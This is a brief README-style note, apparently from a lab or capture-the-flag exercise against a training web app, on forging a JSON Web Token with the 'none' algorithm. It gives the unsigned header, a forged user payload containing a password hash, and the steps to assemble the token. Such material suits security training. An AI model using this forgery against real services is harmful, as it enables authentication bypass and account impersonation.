 ## Generate new JWT Token with NodeJS

```
$npm ci
$node gen_jwt.js
```


##  Generate new JWT Token

Header
```
{
  "typ": "JWT",
  "alg": "none"
}
```

Payload
```
{
  "status": "success",
  "data": {
    "id": 41,
    "username": "",
    "email": "demo",
    "password": "e10adc3949ba59abbe56e057f20f883e",
    "role": "customer",
    "deluxeToken": "",
    "lastLoginIp": "0.0.0.0",
    "profileImage": "/assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2023-11-16 14:10:44.472 +00:00",
    "updatedAt": "2023-11-16 14:10:44.472 +00:00",
    "deletedAt": null
  },
  "iat": 1700143890
}
```

Generate token from [CyberChef](https://gchq.github.io/CyberChef/)
* REsult = Header.Payload.
